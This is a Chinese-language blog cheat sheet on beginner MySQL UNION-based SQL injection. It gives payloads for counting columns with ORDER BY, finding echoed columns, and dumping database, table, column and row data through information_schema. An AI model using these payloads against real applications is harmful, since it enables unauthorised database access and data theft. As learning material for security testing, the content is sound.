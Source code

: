 ```yaml
---
title: 联合注入 | 初级 | 小结
date: 2020-10-01 09:44:46
tags:
  - 注入
categories:
  - 知识总结
cover: https://ovo.btwoa.com/img/cover/008cover.jpg
excerpt: >-
  利用UNION 操作符组合多个语句查询结果收集想要获取的信息
author: btwoa
abbrlink: cef4ee6d
---
```


> **本文部分信息可能已发生改变，请自行甄别**

**注意：本篇内容以 MySQL 为例，并不完全适用于其他数据库。若存在关键字过滤，需进行对应绕过。**

## information_schema 库

 MySQL（5.0以上版本） 自带的信息数据库，提供了访问数据库元数据的方式

记录所有表名信息的表：information_schema.tables

记录所有列名信息的表：information_schema.columns

数据库名：table_schema

表名：table_name

列名：column_name

## 枚举字段数

利用 order by 关键词对字段名在表内的默认顺序进行排序确认字段是否存在，如1，2，……，n。当枚举至 n 时出现报错，则共有 n-1 个字段。

```
password=-1' order by 1,2,3,n #
```

## 确认回显字段

利用 union select 确认回显字段

```
password=-1' union select 1,2,3,n #
```

## 收集数据库基础信息

操作系统     -->    @@version_compile_os

数据库信息  -->    version()

数据库用户  -->    user()

数据库名     -->    database()

通过与可回显字段替换实现相应查询

```
password=-1' union select version(),database(),3,n #
```

## 收集表名

```
password=-1' union select group_concat(table_name),2,3,n from information_schema.tables where table_schema=database() #
```

## 收集字段名

```
password=-1' union select group_concat(column_name),2,3,n from information_schema.columns where table_schema=database() and table_name='table name' #
```

## 收集对应数据

```
password=-1' union select group_concat(column name 1,column name 2,column name 3),2,3,n from table name #
```

## 利用 information_schema 

### 收集所有数据库名

```
password=-1' union select group_concat(schema_name),2,3,n from information_schema.schemata #
```

### 收集指定数据库的表名

```
password=-1' union select group_concat(table_name)2,3,n from information_schema.tables where table_schema='schema name' #
```

### 收集指定数据库指定表的字段名

```
password=-1' union select group_concat(column_name),2,3,n from information_schema.columns where table_name='table name' and table_schema='schema name' #
```

### 收集指定数据库指定表的指定字段信息

```
password=-1' union select group_concat(column name 1,column name 2,column name 3),2,3,n from schema name.table name #
```